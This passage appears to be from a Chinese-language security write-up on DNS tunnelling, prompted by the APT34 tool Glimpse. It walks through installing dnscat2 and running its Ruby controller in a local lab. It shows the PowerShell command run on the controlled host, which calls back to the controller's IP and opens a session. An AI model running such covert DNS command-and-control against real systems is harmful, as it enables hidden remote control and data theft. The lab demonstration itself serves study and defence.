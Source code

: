 选几个算是比较有代表性的工具来说明一下。

### DNSCAT2

DNSCAT2的控制端使用的是Ruby，被控端使用编译好的exe文件，后来网上也有Powershell版本的dnscat。安装：

```
git clone https://github.com/iagox86/dnscat2.git
```

然后ruby dnscat2.rb domain_name运行，这个domain_name需要能够被解析到，否则就不行，我这里本地实验所以把被控端的DNS地址改成了控制端的IP，否则被控端解析不到test域名。

![img](由APT34工具Glimpse引申出的DNS隧道问题.assets/clip_image001.png)

然后再被控端执行powershell脚本dnscat2.ps1

```powershell
Start-Dnscat2 -Domain test -DnsServer 192.168.144.130
```

![img](由APT34工具Glimpse引申出的DNS隧道问题.assets/clip_image002.png)

然后可以看到dnscat2这边已经反弹回了一个session 1
